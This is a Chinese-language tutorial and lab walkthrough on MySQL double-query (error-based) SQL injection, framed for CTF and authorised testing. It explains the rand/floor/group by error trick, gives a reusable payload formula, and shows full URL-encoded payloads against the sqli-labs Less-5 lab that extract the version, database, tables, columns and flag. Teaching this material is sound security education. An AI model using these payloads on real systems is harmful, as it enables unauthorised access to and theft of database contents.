 <!--
author: maomao
date: 2018-0２-２０
title:sql注入之双查询注入
category: web安全入门
status: publish
summary: 一些研究人员发现，使用group子句结合rand()函数以及像count(*)这样的聚合函数，在SQL查询的时候就产生错误。在产生错误的同时，会将我们查询的数据一起显示出来。但是这种报错是随机的。因此，我们便可以构造报错来获取我们需要的数据。
-->



##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##二、什么是双查询

简单来说，双查询注入就是一个select语句中在嵌套一个select语句。具体如下图:

![](img/2.5/1.png)

在执行上述语句的过程中，先执行select user()语句，然后再将该语句的结果传递给外面的select函数。由内到外依次执行。

##三、基本函数

首先我们先学习几个函数

1.rand()

>RAND 函数用于产生从0到1之间的随机数。

![](img/2.5/2.png)

2.Floor()

>FLOOR(X)表示向下取整，只返回值X的整数部分，小数部分舍弃。

![](img/2.5/3.png)

3.count()

>COUNT(*)函数返回由SELECT语句返回的结果集中的行数。COUNT(*)函数计算包含NULL和非NULL值的行，即：所有行。

![](img/2.5/4.png)

4.group by 

>GROUP BY 语句用于结合合计函数，根据一个或多个列对结果集进行分组。

不懂的可以看一下这里：

>http://www.w3school.com.cn/sql/sql_groupby.asp

5.concat()

>CONCAT 函数用于将两个字符串连接为一个字符串

![](img/2.5/5.png)

##四、双查询注入原理

一些研究人员发现，使用group子句结合rand()函数以及像count(*)这样的聚合函数，在SQL查询的时候就产生错误。在产生错误的同时，会将我们查询的数据一起显示出来。但是这种报错是随机的。因此，我们便可以构造报错来获取我们需要的数据。

固定公式如下

>union select 1,count(*),concat(0x3a,0x3a,(注入语句),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a--+

报错注入看似比较难，但是使用相对简单。只要在注入语句处，换成我们前两次课程注入语句即可注入成功。

关于这几个函数在一起为什会报错在这里不做详细的叙述，有兴趣的可以看下面这篇文章

>http://www.anquan.us/static/drops/tips-14312.html



##五、实战

1.我们按照之前的方法逐步进行手工注入，当判断完列数，然后判断回显位置的时候.发现并没有回显位置。

![](img/2.5/6.png)

拿出我们刚刚的固定公式，查一下数据库的版本。

>链接：
http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(version()),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/7.png)

这里需要说明一点的是，因为这是是随机报错。如果一次报错没有出来，多次刷新即可。


2.查数据库名

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select%20database()),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/8.png)

3.查表名

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

此时发现报错了，我们使用limit 0,1 来限制一下行数。

>LIMIT 子句可以被用于强制 SELECT 语句返回指定的记录数。MySQL LIMIT 接受一个或两个数字参数。参数必须是一个整数常量。如果给定两个参数，第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。初始记录行的偏移量是 0

我们可以通过查看limit参数来查看其他的表，比如我们查看第二行的表（limit 1,1）

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%201,1),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

成功发现falg表。

![](img/2.5/9.png)

4.查列名

http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name ="flag" ),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/10.png)

5.查数据

http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select flag from flag ),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/11.png)

##六、课后练习

CTF赛题地址：https://t.zsxq.com/UNbM33F






